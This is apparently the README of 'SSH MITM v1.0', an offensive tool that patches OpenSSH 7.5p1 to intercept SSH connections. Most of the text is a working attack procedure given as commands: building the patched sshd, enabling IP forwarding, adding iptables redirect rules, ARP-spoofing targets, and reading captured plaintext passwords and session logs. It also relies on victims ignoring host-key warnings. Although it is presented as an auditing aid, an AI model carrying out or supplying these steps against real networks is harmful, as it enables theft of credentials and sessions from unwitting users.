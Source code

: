# SSH MITM v1.0

## Overview

This penetration testing tool allows an auditor to intercept SSH connections.  A patch applied to the OpenSSH v7.5p1 source code causes it to act as a proxy between the victim and a legitimate SSH server; all plaintext passwords and sessions are logged to disk.

Of course, the victim's SSH client will complain that the server's key has changed.  Because 99.99999% of the time this is caused by a legitimate action (OS re-install, configuration change, etc), many/most users will disregard the warning and continue on.

**NOTE:** Only run the modified *sshd* in a VM or container!  Ad-hoc edits were made to the OpenSSH sources in critical regions, with no regard to their security implications.  Its not hard to imagine these edits introduce serious vulnerabilities.  Until the dependency on root privileges is removed, be sure to only run this code on throw-away VMs/containers.


## To Do

This is the first release of this tool.  While it is very useful as-is, there nevertheless are things to improve:

* Support SFTP MITM'ing.
* Add port forwarding support.
* Remove dependency on root privileges.
* Create wrapper script that detects when user is trying to use key authentication only, and de-spoof them automatically.


## Initial Setup

1.) Install zlib and openssl headers:

    sudo apt install zlib1g-dev libssl-dev

2.) Download OpenSSH v7.5p1 and verify its signature:

    wget https://ftp.openbsd.org/pub/OpenBSD/OpenSSH/RELEASE_KEY.asc
    wget https://ftp.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.5p1.tar.gz
    wget https://ftp.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.5p1.tar.gz.asc
    gpg --import RELEASE_KEY.asc
    gpg --verify openssh-7.5p1.tar.gz.asc openssh-7.5p1.tar.gz

3.) Unpack the tarball, patch the sources, and compile it:

    tar xzf openssh-7.5p1.tar.gz
    patch -p0 < openssh-7.5p1-mitm.patch
    mv openssh-7.5p1 openssh-7.5p1-mitm; cd openssh-7.5p1-mitm; ./configure --with-sandbox=no && make -j 10

4.) Create keys and setup environment:

    sudo ssh-keygen -t ed25519 -f /usr/local/etc/ssh_host_ed25519_key < /dev/null
    sudo ssh-keygen -t rsa -b 4096 -f /usr/local/etc/ssh_host_rsa_key < /dev/null
    sudo useradd -m sshd && sudo useradd -m bogus && sudo chmod 0700 ~sshd ~bogus
    sudo mkdir /var/empty; sudo cp ssh ~bogus/


## Running The Attack

1.) Run *sshd*:

    cd /path/to/openssh-7.5p1-mitm
    sudo $PWD/sshd -f $PWD/sshd_config

2.) Enable IP forwarding:

    sudo bash -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
    sudo iptables -P FORWARD ACCEPT

3.) Allow connections to *sshd* and re-route forwarded SSH connections:

    sudo iptables -A INPUT -p tcp --dport 22 -j ACCEPT
    sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-ports 22

4.) ARP spoof a target(s) (**Protip:** do NOT spoof all the things!  Your puny network interface won't like be able to handle an entire network's traffic all at once.  Only spoof a couple IPs at a time):

    arpspoof -r -t 192.168.x.1 192.168.x.5

5.) Monitor *auth.log*.  Intercepted passwords will appear here:

    sudo tail -f /var/log/auth.log

6.) Once a session is established, a full log of all input & output can be found in */home/bogus/session_\*.txt*.


## Developer Documentation

In *lol.h* are two defines: *DEBUG_HOST* and *DEBUG_PORT*.  Enable them and set the hostname to a test server.  Now you can connect to *sshd* directly without using ARP spoofing in order to test your changes, e.g.:

    ssh valid_user_on_debug_host@localhost

To create a new patch, use these commands:

    pushd openssh-7.5p1-mitm/; make clean; popd
    diff -ru --new-file -x '*~' -x 'config.*' -x Makefile.in -x Makefile -x opensshd.init -x survey.sh -x openssh.xml -x buildpkg.sh openssh-7.5p1 openssh-7.5p1-mitm/ > openssh-7.5p1-mitm.patch
